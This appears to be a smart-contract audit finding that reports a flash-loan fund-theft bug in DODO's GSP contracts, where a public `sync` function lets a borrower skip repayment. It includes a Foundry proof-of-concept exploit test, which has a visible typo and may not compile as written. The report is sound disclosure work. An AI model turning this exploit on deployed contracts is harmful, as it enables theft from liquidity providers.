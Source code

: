 Massive Fern Bobcat

high

# Flash loan borrower can steal funds

## Summary
The `GSPTrader.sol` contract is vulnerable to a flash loan exploit due to the public accessibility of the `sync` function in `GSPVault.sol`. This vulnerability allows a user to manipulate the contract state during a flash loan, potentially leading to the theft of funds.


## Vulnerability Detail
The flash loan function in `GSPTrader.sol` can be exploited through the following steps:
1. The user obtains a flash loan.
2. The user calls the public `sync` function in `GSPVault.sol`, which synchronizes the reserves with the current token balances.
3. The user repays the flash loan with the exact `_MT_FEE_BASE_` and `_MT_FEE_QUOTE_` token amounts.
4. The `require` check in `GSPTrader.sol` passes because the balances match the reserves, allowing the flash loan to be successfully completed without actually returning the borrowed funds.

This exploit is made possible because the `sync` function can be called by any user, allowing them to manipulate the reserve balances during the flash loan process.


## Impact
This vulnerability can lead to the theft of funds from the contract, as users can exploit the flash loan mechanism to withdraw more tokens than they return. It undermines the security and integrity of the flash loan process and the contract as a whole.


## Code Snippet
- **Location of Issue**: [GSPTrader.sol#L122-L128](https://github.com/sherlock-audit/2023-12-dodo-gsp/blob/main/dodo-gassaving-pool/contracts/GasSavingPool/impl/GSPTrader.sol#L122-L128)
- **Relevant Code Section in `GSPVault.sol`**:
  ```solidity
  function sync() external nonReentrant {
      _sync();
  }
  ```
  
  POC exploit code  - paste it in GPSTrader.t.sol
  ```solidity
      function test_flashLoadSteal() public {
         vm.startPrank(DAI_WHALE);
        dai.transfer(USER, BASE_RESERVE + BASE_INPUT);
        vm.stopPrank();
        vm.startPrank(USDC_WHALE);
        usdc.transfer(USER, QUOTE_RESERVE + QUOTE_INPUT);
        vm.stopPrank();

        // User buys shares
        vm.startPrank(USER);
        dai.transfer(address(gsp), BASE_RESERVE);
        usdc.transfer(address(gsp), QUOTE_RESERVE);
        gsp.buyShares(USER);

         // flashloan - sellquote
        (uint256 amountBase, , ,) = gsp.querySellQuote(USER, QUOTE_INPUT);
        usdc.transfer(address(gsp), QUOTE_INPUT);
        gsp.flashLoan(amountBase + 1e18, 0, adress(this), "");
    }

     function DSPFlashLoanCall(
        address sender,
        uint256 baseAmount,
        uint256 quoteAmount,
        bytes calldata data
    ) external {
       vm.startPrank(USER);
       gsp.sync();
        dai.transfer(address(gsp), _MT_FEE_BASE_);
        usdc.transfer(address(gsp), _MT_FEE_QUOTE_);
    }
    ```

## Tool used

Manual Review

## Recommendation
Restrict the access to the sync function in GSPVault.sol to prevent it from being called by unauthorized users. This can be achieved by adding an access control mechanism, such as an onlyOwner or onlyAuthorized modifier.
By limiting the public accessibility of the sync function, the contract can prevent malicious actors from manipulating the reserve balances during a flash loan, thereby safeguarding the funds and maintaining the integrity of the flash loan process.
